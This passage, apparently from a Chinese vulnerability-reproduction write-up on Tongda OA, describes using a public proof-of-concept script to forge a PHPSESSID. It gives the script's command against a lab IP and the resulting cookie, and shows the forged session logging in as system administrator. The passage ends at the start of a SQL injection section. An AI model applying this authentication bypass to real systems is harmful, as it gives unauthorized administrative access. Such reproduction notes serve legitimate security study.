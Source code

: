 使用poc生成PHPSESSID ，再次访问该网址并抓包，替换cookie中的PHPSESSID为用poc生成的。放包，成功以系统管理员身份登录。

poc脚本获取地址：https://github.com/NS-Sp4ce/TongDaOA-Fake-User

```
python3 tongda_admin.py -v 11 -url http://192.168.16.112:8080/
```

获得 `COOKIE:PHPSESSID=4s7t89n55e20uh8dl5i4ak0vn5`

登录成功

![image-20210409142510681](images/%E9%80%9A%E8%BE%BEOA.assets/image-20210409142510681.png)







## 通达OA前台SQL注入复现

登录-个人事务-日程安排-日程查询

![image-20210409145256353](images/%E9%80%9A%E8%BE%BEOA.assets/image-20210409145256353.png)
